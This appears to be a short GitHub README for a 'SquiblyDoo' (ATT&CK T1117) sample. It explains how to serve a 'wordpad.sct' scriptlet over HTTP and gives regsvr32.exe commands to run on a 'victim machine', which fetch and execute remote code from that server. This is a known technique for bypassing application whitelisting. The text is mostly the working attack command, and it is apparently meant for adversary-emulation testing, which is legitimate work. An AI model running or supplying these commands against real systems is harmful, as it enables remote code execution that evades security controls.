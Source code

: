 # SquiblyDoo/T1117 Sample

On a machine with an HTTP Server, place the file "wordpad.sct" in the a served folder that can be accessed by the test/victim machine. If no HTTP Server is available you can use web_server.py from my repo (https://github.com/ColbyBurkett/Python-web-server). The serving folder is the same folder that web_server.py is running from.
**_Launch this from the victim machine:_**
```
regsvr32.exe /s /u /i:http://{serving IP:port}/wordpad.sct scrobj.dll
cmd.exe /c regsvr32.exe /s /u /i:http://{serving IP:port}/wordpad.sct scrobj.dll
```